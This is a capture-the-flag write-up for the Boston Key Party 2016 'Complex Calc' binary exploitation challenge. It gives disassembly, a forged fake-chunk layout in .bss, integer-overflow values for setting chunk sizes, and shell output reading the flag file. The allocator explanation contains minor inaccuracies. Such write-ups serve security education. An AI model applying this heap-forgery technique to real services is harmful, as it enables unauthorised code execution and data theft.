 
## BostonKeyParty CTF 2016 - Complex Calc (Pwn 6pt)
##### 04/03 - 06/03/2016 (48hr)
___
### Description: 
we've fixed a tiny bug!

simplecalc.bostonkey.party 5500
___
### Solution
This code is identical with the simple calc. However the previous exploit doesn't work. We get 
segmentation fault upon free(). If we look at free(), there's no check if argument is NULL:
```assembly
.text:00000000004156D0 free            proc near ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                           ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0          mov     rax, cs:__free_hook
.text:00000000004156D7          test    rax, rax
.text:00000000004156DA          jnz     loc_41579A
.text:00000000004156E0          nop     dword ptr [rax]
.text:00000000004156E3          nop     word ptr [rax+rax+00h]
.text:00000000004156E9          mov     rax, [rdi-8]
.text:00000000004156ED          lea     rsi, [rdi-10h]
```
This means that ptr_10 must be a valid address pointing to the beginning of an allocated chunk on 
the heap:
```assembly
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
This would be trivial is ASLR was disabled, or if we could leak an address from the heap. However,
both scenarios are false so we need another trick.

In order to solve the problem we have to see exactly why free() crashes and how slab allocator
works. If we see an allocated chunk in heap, there are 8 bytes before it (called chunk header)
which stores some metadata about the allocated region:
```
offset:	-16                    -8
		+----------------------+--------------------------+
		| previous chunk size  | Chunk size % 8 + 3 FLAGS |
	  0 +----------------------+--------------------------+
ptr -->	|                                                 |
		|                    User Data                    |
		|                                                 |
		+--------------------------------------------------
```
The minimum possible chunk size is 8 bytes, so we use the 3 LSBits as flags. If the LSBit is 
clear, we can find the previous chunk by using ptr - 16 as the previous chunk size. Slab
allocator keeps a linked list with all free chunks. Upon free() we must insert (and possibly
coallesce) the chunk in the free list.

If we somehow forge a fake chunk, we can make slab allocator believing that it's a valid chunk,
so it won't crash on free(). Remember our goal is to don't crash, not to really free some memory.

The only memory region that we can control and we know its address is in .bss. These are the
global variables used to store arguemnts for calculations. Thus we have to create a fake
chunk there and overwrite ptr_10 with an address within there.

Let's see the memory layout:
```assembly
.bss:00000000006C4A80             public add_1_6C4A80
.bss:00000000006C4A80 00 00 00 00 add_1_6C4A80 dd 0 	; DATA XREF: adds+13o
.bss:00000000006C4A80                                	; adds+5Er ...
.bss:00000000006C4A84 00 00 00 00 add_2_6C4A84 dd 0  	; DATA XREF: adds+40o
.bss:00000000006C4A84                               	; adds+69r ...
.....
.bss:00000000006C4AB4                                	; subs+69r ...
.bss:00000000006C4AB8 00 00 00 00 _sub_ans_6C4AB8 dd 0  ; DATA XREF: subs+98w
.bss:00000000006C4AB8                                  	; subs+9Er ...
.bss:00000000006C4ABC 00 00 00 00 align 20h
```

This is how we can forge our fake chunk: 
```
0x06C4A80: add_1    --> any value
0x06C4A84: add_2 	--> any value	(ignored, because LSbit is set)
0x06C4A88: add_res 	--> 0x21		(16B long, and LSbit is set)
0x06C4A8C: align	--> 0x00 		(0 by default; it must be 0)

0x06C4A90: div_1 	--> any value 	(the actual allocated chunk)
0x06C4A94: div_2	--> any value
0x06C4A98: div_ans 	--> any value
0x06C4A9C: align	--> any value

0x06C4AA0: mul_1 	--> any value	(next chunk header)
0x06C4AA4: mul_2 	--> any value	(ignored, because LSbit is set)
0x06C4AA8: mul_ans 	--> 0x21		(16B long, and LSbit is set)
0x06C4AAC: align	--> 0x00 		(0 by default; it must be 0)

0x06C4AB0: sub_1 	--> any value 	(the actual allocated chunk)
0x06C4AB4: sub_2 	--> any value
0x06C4AB8: sub_sub	--> any value
0x06C4ABC: align	--> any value
```
Now, we can have 2 valid chunks at .bss, so free() won't complain, because the header pointers
will be valid. Thus all we have to do, is to overwrite ptr_10 with 0x06C4A90 (which supposed to
be the address of the 1st fake chunk). Because the size of the chunk (0x21, will be valid).

The last challenge is how to set add_res and mul_ans to 0x21. Because input numbers must be 
> 0x27, we have to use some very large numbers that will overflow and the result will be
very small. So:

```
add_1   = 0xffffff80 
add_2   = 0xa1
add_res = 0x100000021 = 0x21

mul_1   = 0x80000001
mul_2   = 0x80000021
mul_ans = 0x4000001100000021 = 0x21
```


Now we can write our exploit and get the flag **BKPCTF{th3 l4st 1 2 3z}**

```
root@nogirl:~/ctf/bostonkeyparty# ./complex_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit.
	=> whoami
		nobody
	ls -la
		total 1188
		drwxr-xr-x 2 root root   4096 Mar  5 03:37 .
		drwxr-xr-x 3 root root   4096 Mar  5 03:20 ..
		-rw-r--r-- 1 root root    220 Mar  5 03:20 .bash_logout
		-rw-r--r-- 1 root root   3637 Mar  5 03:20 .bashrc
		-rw-r--r-- 1 root root    675 Mar  5 03:20 .profile
		-rw-r--r-- 1 root root     24 Mar  5 03:37 key
		-rwxr-xr-x 1 root root     83 Mar  5 03:26 run.sh
		-rwxr-xr-x 1 root root 882266 Mar  5 03:25 simpleCalc_v2
		-rw-r--r-- 1 root root 302348 Mar  5 03:20 socat_1.7.2.3-1_amd64.deb
	cat key
		BKPCTF{th3 l4st 1 2 3z}
	exit
	*** Connection closed by remote host ***
```

___

